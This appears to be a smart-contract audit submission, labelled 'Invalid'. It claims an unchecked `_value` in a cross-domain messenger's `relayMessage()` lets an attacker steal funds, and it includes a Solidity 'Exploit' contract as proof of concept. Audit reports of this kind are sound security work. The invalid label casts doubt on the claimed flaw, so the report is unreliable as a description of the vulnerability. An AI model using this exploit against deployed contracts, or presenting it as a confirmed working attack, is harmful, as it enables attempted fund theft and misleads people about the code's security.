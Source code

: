Slow Blonde Griffin

Invalid

# Attacker will exploit unchecked `_value` to steal funds from the protocol

### Summary

A missing check on the `_value` parameter will cause an unauthorized fund transfer for the protocol as the attacker will bypass the deposit requirement by sending a cross-chain message with a non-zero `_value` while `msg.value` is zero.


### Root Cause

In [`src/universal/CrossDomainMessenger.sol:246`](#), the function only checks for `msg.value == 0` instead of ensuring that both `msg.value == 0` and `_value == 0` when the caller is not the other messenger.


### Internal pre-conditions

1. The attacker needs to call `relayMessage()` with `_value` greater than zero and `msg.value` set to zero.
2. The system address check for cross-chain messaging needs to bypass the validation logic of `msg.value`.


### External pre-conditions

1. The attacker must be able to send a cross-chain message, triggering `relayMessage()` without being from the other messenger.


### Attack Path

1. Attacker sends a crafted cross-chain message with `_value > 0` and `msg.value == 0`.
2. The system validates `msg.value == 0`, ignoring `_value > 0`.
3. The message gets relayed, and the target receives funds from the contract, despite no actual ETH being transferred by the attacker.


### Impact

The protocol suffers a loss equivalent to the `_value` sent via the message. The attacker gains the transferred amount without depositing any funds.


### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICrossDomainMessenger {
    function relayMessage(
        uint256 _nonce,
        address _sender,
        address _target,
        uint256 _value,
        uint256 _minGasLimit,
        bytes calldata _message
    ) external payable;
}

contract Exploit {
    ICrossDomainMessenger public crossDomainMessenger;
    address public target;  // Target contract to receive the ETH
    uint256 public exploitValue = 1 ether;  // Exploit value to be sent to the target

    constructor(address _crossDomainMessenger, address _target) {
        crossDomainMessenger = ICrossDomainMessenger(_crossDomainMessenger);
        target = _target;
    }

    // Function to execute the exploit
    function executeExploit(uint256 nonce, uint256 minGasLimit, bytes calldata message) external {
        // Call the relayMessage function with _value > 0 and msg.value == 0
        crossDomainMessenger.relayMessage{value: 0}(
            nonce,              // Nonce for the message
            address(this),      // Address of the attacker
            target,             // Target to receive the funds
            exploitValue,       // _value set to exploitValue (non-zero)
            minGasLimit,        // Minimum gas limit
            message             // Message to send
        );
    }

    // Fallback function to receive any transferred funds
    receive() external payable {
        // Exploit successful if funds are received
    }
}
```

### Mitigation

_No response_